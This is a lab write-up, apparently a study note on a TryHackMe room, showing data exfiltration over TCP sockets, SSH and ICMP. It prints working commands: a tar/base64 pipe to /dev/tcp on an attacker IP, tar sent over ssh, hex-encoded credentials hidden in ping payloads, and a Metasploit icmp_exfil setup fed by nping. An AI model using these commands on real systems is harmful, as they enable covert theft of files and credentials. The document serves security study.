

# Data Exfiltration

The Data Exfiltration is the process of transferring data from a system or network without authorization. This type of attack typically involves obtaining and extracting sensitive or confidential information, such as personal, financial, or corporate data, without the consent of the data owner. Data exfiltration is used to hide an adversary's malicious activities and bypass security products. For example, the DNS exfiltration technique can evade security products, such as a firewall.

Data exfiltration can have severe consequences for an organization or individual, including financial loss, reputational damage, and privacy breaches.

<p align="center">
  
</p>

Here we will use some techniques below to exemplify data theft;

* TCP Socket
* SSH
* HTTP(s)
* ICMP
* DNS

For this study, we used the **TryHackMe** room as an example ([TryHackMe - Data Exfiltration ](https://tryhackme.com/r/room/dataxexfilt)).

## TCP Socket Protocol

In this topic, we will use the TCP protocol to transfer data from an already compressed host. This is the simplest technique, where we know that there is a weak security system.

<p align="center">
  
</p>

1. To exfiltrate the data, the hacker opens port 15251 (uncommon).
2. The hacker opens port 1337 to receive data.
3. The victim communicates with the hacker and begins transferring data.

### Starting the Attack

* Let's use NC (NetCat) to start a listener on the attacker. In this step, we will transfer all data received on port 1337 to the **data.txt** file.

```
nc -lvp 1337 > /tmp/data.txt
```
* On the victim, we will begin transfers to the attacking host.

```
tar zcf - /tmp/files/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/1337
```
1. We use TAR to compress the files folder.
2. We convert TAR to base64.
3. We then convert the base64 to a backup file, using dd and EBCDIC encoding.
4. we direct all this code to the TCP socket, sent to 1337 from the attacker.

Below we can see the sending and receiving of data via TCP socket.

* On the victim's machine, I am sending files from the **/tmp/files** folder

<p align="center">
  
</p>

* On the attacker's computer, we receive the data on port 1337 and reverse the DD, base64 and TAR encoding.

<p align="center">
  
</p>

## SSH Protocol

In this step, we will use the SSH protocol to exfiltrate data. More secure than TCP, SSH uses a layer of encryption, making it difficult for security tools to identify leaks.

<p align="center">
  
</p>

* We will use a technique similar to the TCP socket, sending the data encoded.

```
tar cf - /tmp/files/ | ssh thm@attacker.ip "cd /tmp/; tar xpf -"
```
1. Use TAR to create a directory archive.
2. We concatenate it with the SSH command sent to our attacker's user/ip.
3. Inside the attacker's host, we change the directory to /tmp/ and unzip the TAR.

Below we can see the victim's host transferring via SSH to the attacker.

<p align="center">
  
</p>

We found the files inside the attacker's machine.

<p align="center">
  
</p>

## ICMP Protocol

The ICMP stands for Internet Control Message Protocol, and it is a network layer protocol used to handle error reporting. Network devices such as routers use ICMP protocol to check network connectivities between devices. Note that the ICMP protocol is not a transport protocol to send data between devices.

#### ICMP Data Section

Data exfiltration is possible due to the structure of the ICMP protocol. In this protocol, there is an 'Optional Data' field, which we use to send the data.

<p align="center">
  
</p>

* In this first step, we will encode our text to HEX, avoiding any encoding problems when sending the ICMP protocol. To identify the data sent in the protocol, we will use the **TCPDUMP network analyzer**.

```
echo "root:pass321" | xxd -p 
726f6f743a706173733332310a
```
1. we convert the string to HEX with xxd

Let's test the protocol between 2 machines. On the victim's host, we send the ping with the text converted to HEX.
```
ping 192.168.0.133 -c1 -p 726f6f743a706173733332310a
```

<p align="center">
  
</p>

On the attacker's host, we need to monitor the ICMP protocol on the network with tcpdump, using -X to show the data field, -i for interface and the protocol (ICMP).
```
tcpdump -X -i eth1 icmp
```
<p align="center">
  
</p>

#### ICMP and Metasploit

To facilitate and automate the process with ICMP, the metasploit framework has a module to help us receive this data, called **icmp_exfil**.

```
msf6 > use auxiliary/server/icmp_exfil 
msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKER-IP
BPF_FILTER => icmp and not src ATTACKER-IP
msf6 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf6 auxiliary(server/icmp_exfil) > run
```
After configuring the module, we need to send a signal to the attacking host to start receiving data via ICMP. This signal is the text "BOFfile.txt" via ICMP.

```
nping --icmp -c 1 ATTACKER-IP --data-string "BOFfile.txt"
```
* The victim host sends the signal.
<p align="center">
  
</p>
* The attacking host receiving the signal.
<p align="center">
  
</p>

Let's start our data exfiltration via ICMP. In the victim, we send some data;

```
nping --icmp -c 1 10.10.61.247 --data-string "admin:password"
nping --icmp -c 1 10.10.61.247 --data-string "jorge@gmail.com:asdaf@#"
nping --icmp -c 1 10.10.61.247 --data-string "jorge:xxssdaf@#"
nping --icmp -c 1 10.10.61.247 --data-string "EOF"  -- To close the file
```
After EOF, the file is saved and we can view the data being sent via ICMP.

<p align="center">
  
</p>

The exfiltrated data.
<p align="center">
  
</p>

## DNS

Working...